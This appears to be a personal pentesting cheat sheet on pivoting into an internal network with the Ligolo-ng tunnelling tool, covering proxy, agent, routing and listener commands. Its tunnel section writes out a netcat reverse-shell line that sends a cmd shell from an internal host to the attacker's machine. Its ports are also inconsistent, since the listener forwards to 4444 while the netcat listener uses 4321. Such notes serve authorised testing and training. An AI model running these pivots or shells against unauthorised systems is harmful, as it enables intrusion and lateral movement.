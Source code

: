 Navigation: [[Pentesting]]

---
# Ligolo
By far the best tool for this is [Ligolo-ng](https://github.com/nicocha30/ligolo-ng). I'll be using [this video](https://www.youtube.com/watch?v=DM1B8S80EvQ) as a reference for this section. 

Here's a screenshot of the example we'll be using:
![[Ligolo_Setup.png]]
### Our Machine (Proxy)
Make sure to download the proxy from the [releases](https://github.com/nicocha30/ligolo-ng/releases) page.

From here we can run the following:
```shell
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up

# On Ligolo-ng >= v0.6, you can just run the following:
interface_create --name "<name>"

# Now we can run the proxy from the directory
./proxy --selfcert
# this should give us a port number it's listening on now, we'll need it for the agent


# Assuming the agent has connected now
help # check options
session # list active sessions, enter session number to remote connect to host
```

### Jump Server (Agent)
Download the agent from releases.

Make sure to setup the proxy server first. Then here's how we can connect to it:
```shell
# Ignore the cert since we created a self certificate
ligolo-agent.exe -connect <Proxy IP>:<port> -ignore-cert
```

### Setting Up the Pivot
```shell
# From our proxy, open a new terminal and run the following
sudo ip route add <internal ip>/24 dev ligolo
# For the above example, the internal would've been 10.10.120.0/24

# Go back to the proxy and enter the session, then run the following command
start
```
### Setting Up a Tunnel
Here's how we can get a reverse shell from a second host into our proxy server.
```shell
# Ensure that we're on the pivot session
# The following will create a listening socket on the agent and redirect them to port 4321 on the proxy
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444

# If we wanted to create a listener for HTTP download/upload
# When running HTTP requests, use the IP and port of the pivot
listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80

# On the proxy, we can run the following
nc -lvp 4321

# On the second host (MS02 in the example)
nc.exe <jump IP> <jump port> -e cmd
# jump IP would be 10.10.120.131 and the port would be 1234 in the example

# In the pivot session, we can use the following 2 commands
listener_list 
listener_stop <num>
```



---
Navigation: [[Pentesting]]